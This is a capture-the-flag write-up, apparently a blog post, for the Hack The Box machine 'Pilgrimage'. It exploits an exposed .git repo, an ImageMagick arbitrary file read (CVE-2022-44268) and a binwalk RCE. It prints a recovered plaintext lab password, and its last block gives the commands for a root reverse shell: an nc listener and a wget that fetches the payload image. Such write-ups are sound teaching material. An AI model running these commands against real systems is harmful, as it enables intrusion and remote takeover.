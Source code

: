```yaml
---
title: "Hackthebox Writeup Pilgrimage"
date: 2023-07-08T16:04:50+08:00
toc: true
draft: false
tags: [hackthebox]
---
```


<!--more-->

# User Shell

We found .git directory from nmap

![](https://i.imgur.com/zDIJgzy.png)   

We can use git-dumper to dump the git repo

```bash 
./git_dumper.py http://pilgrimage.htb/.git dump
``` 
 
We found a binary file magick, google it we found a poc
https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

```
total 26972
drwxr-xr-x 5 kali kali     4096 Jul  8 02:30 .
drwxr-xr-x 4 kali kali     4096 Jul  8 04:44 ..
drwxr-xr-x 6 kali kali     4096 Jul  8 02:30 assets
-rwxr-xr-x 1 kali kali     5538 Jul  8 02:30 dashboard.php
drwxr-xr-x 7 kali kali     4096 Jul  8 02:30 .git
-rwxr-xr-x 1 kali kali     9250 Jul  8 02:30 index.php
-rwxr-xr-x 1 kali kali     6822 Jul  8 02:30 login.php
-rwxr-xr-x 1 kali kali       98 Jul  8 02:30 logout.php
-rwxr-xr-x 1 kali kali 27555008 Jul  8 02:30 magick
-rwxr-xr-x 1 kali kali     6836 Jul  8 02:30 register.php
drwxr-xr-x 4 kali kali     4096 Jul  8 02:30 vendor

```
 
We now can read any file we want, from the source code, we found "sqlite:/var/db/pilgrimage"

![Imgur](https://i.imgur.com/k15YNzy.png)
Read that file, we can find the password of emily

`emily : abigchonkyboi123`

Then we are able to ssh with emaily

# Root

From linpeas reuslt, we can find a file “/usr/sbin/malwarescan.sh” executed by root
![Imgur](https://i.imgur.com/4dsfHLx.png)

![Imgur](https://i.imgur.com/sppCU1a.png)

By reading the content, the script means:
1. notice new created any file in "/var/www/pilgrimage.htb/shrunk/"
2. binwalk the new files
3. If the file containsed blacklist, it will remove it


the binwalk location is intersting, we dry run it once

![Imgur](https://i.imgur.com/Wb4uAYx.png)

We could knew it is v2.3.2, google it, we will find it has a RCE vulnerability.

As a result, we use the poc to gain the root reverse shell
https://www.exploit-db.com/exploits/51249
```
# In host:
python3 lpe.py shit.png 10.10.14.35 443

nc -lvnp 443

# In victim:
wget 10.10.14.35/binwalk_exploit.png
```
![Imgur](https://i.imgur.com/T8KUpkq.png)